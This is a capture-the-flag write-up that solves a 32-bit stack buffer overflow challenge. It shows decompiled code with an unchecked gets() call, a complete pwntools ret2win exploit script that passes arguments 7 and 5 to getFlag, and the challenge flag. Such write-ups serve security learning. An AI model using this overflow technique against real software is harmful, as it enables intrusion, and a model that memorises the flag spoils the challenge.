


# Additional Information Needed


Category: PWN

Difficulty: medium


## Description

> **Author**: @Soups71\
> Another binary exploit challenge, but this time it's gonna take some more information for me to give you what you want.\
> **Attachments**: _challenge.elf_

## Solve Walkthrough

* This is a medium pwn challenge and I solve it after the challenge ended
* Same as `Echo` challenge before, we've to ret2win to `getFlag` function.
* First, let's check the ELF protection.


```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Additional_Information_Needed/challenge.elf'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```


* Hmm, this is a **32-bit ELF binary** and **no protection at all**.
* Let's discover all function symbols using Ghidra.

<figure><figcaption></figcaption></figure>

* Here's the decompiled code of `main`  and `getFlag` function.



```c
// main
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  char local_28 [32]; // 0x24 (HEX)
  
  buffer_init();
  puts("Welcome to this simple pwn challenge...");
  puts("All you have to do is make a call to the `getFlag()` function. That\'s it!");
  gets(local_28);
  return 0;
}
```



```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;

  // We've to pass this if statement!.
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}
```



* In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
* Here's my exploit script for this challenge.


```python
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

io.sendline(payload)
io.interactive()
```


* Create a sample `flag.txt` file in your folder to execute the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><figcaption></figcaption></figure>

## Flag

<kbd>flag{8e9e2e4ec228db4207791e0a534716c3}</kbd>
